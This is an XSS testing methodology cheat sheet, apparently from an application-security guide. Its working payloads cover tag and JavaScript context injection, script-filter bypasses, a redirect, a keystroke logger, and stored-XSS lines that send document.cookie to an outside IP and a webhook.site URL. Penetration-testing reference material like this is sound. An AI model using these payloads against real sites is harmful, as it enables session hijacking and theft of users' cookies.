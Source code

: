 [https://appsecexplained.gitbook.io/appsecexplained/common-vulns/javascript-injection-xss/xss-methodology](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/javascript-injection-xss/xss-methodology)
## Identify
---
Are we able to control any data that is being reflected back and rendered by the application?

Important considerations:

- Where is the payload executing?
- What input validation exists?

## HTLM Tag Context
---
If we have control over content that is being reflected in an html tag.
You can try to close the tag and exec
```
"><script>prompt(1)</script>
"><img src=x onerror="prompt(1)">
```
If you have control over an `href` you can try the javascript browser scheme
```
http://example.com --> javascript:prompt()
```
Or just close tag early
```
</selected><img src=x onerror="prompt(1)">
```
## Javascript context
---
If we have control over content that is being reflected into a javascript context. Example:
```javascript
var querySearch = 'controlledInput'
```
Break the quote by appending input and comment out trailing semicolon.
```
controlledInput';prompt()//';
```


## General

### Quickly test for unfiltered tags
---
1. Get a list of tags (copy to clipboard [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet))
2. Intercept request with burp, send to intruder.
![](../../assets/Pasted%20image%2020250629173700.png)
3. Paste the tags into the payloads. 
4. Start attack, monitor for unfiltered response codes, different length responses, etc...
5. You've hopefully found an unfiltered tag.
6. You can append portions of the payloads to determine exactly what is triggering the block.
7. Copy the events from portswigger, do the same thing for the event portion of the payload.


**Test html injection first, usually this is a good indicator (JS = you might need to bypass filter)**
```Python
<h1>test</h1>
```
**Payloads**
```html
<script>alert()</script>
```
```html
<script>print()</script>
```
```html
<script>prompt("string")</script>
```
```html
<script>alert(window.origin)</script>
```
```html
 <plaintext>
```
!!! alert "info"
	Many modern web applications utilize cross-domain IFrames to handle user input, so that even if the web form is vulnerable to XSS, it would not be a vulnerability on the main web application. This is why we are showing the value of window.origin in the alert box, instead of a static value like 1. In this case, the alert box would reveal the URL it is being executed on

**You need to trigger XSS if not executed on page load**
```html
<img src=x onerror="prompt(1)">
```
**Redirect**
```html
<img src=x onerror="window.location.href='<https://example.com>'">
```
**script tag filter**
```html
<img src=x onerror=print()>
```
```html
<scri<script>pt>prompt(1)<scri</scr</script>ipt>
```
**Keylogger**
```html
function logKey(event){console.log(event.key)}
```
```html
 document.addEventListener('keydown', logKey)
```


## DOM XSS
---
### Identify
You have XSS execution, but no http requests are being made. We see that the input parameter in the URL is using a hashtag # for the item we added, which means that this is a client-side parameter that is completely processed on the browser. This indicates that the input is being processed at the client-side through JavaScript and never reaches the back-end. This is DOM XSS
if we look at the page source by hitting `CTRL+U`, we will notice that our `test` string is nowhere to be found. This is because the JavaScript code is updating the page when we click the `Add` button
We can still view the rendered page source with the Web Inspector tool by clicking `CTRL+SHIFT+C`:

## Stored
**Steal admin cookie (classic)**
```html
<script>fetch("<http://192.168.187.130:9999/>" + document.cookie)</script>
```
```html
<script>var i = new Image; i.src="https://webhook.site/9b3374bf-b997-4021-a302-de75a26fd841/?"+document.cookie;</script>
```

!!! alert "note"
	Sometimes you may need to trigger the payload with JS as well (JS to resize the screen when using an onresize event to trigger)

### Automated with DOM Invader
---
Turn DOM invader on via the burp extension. Open dev tools,click DOM Invader tab.
Input the provided canary to potential execution. DOM Invader will identify sources and sinks for that data.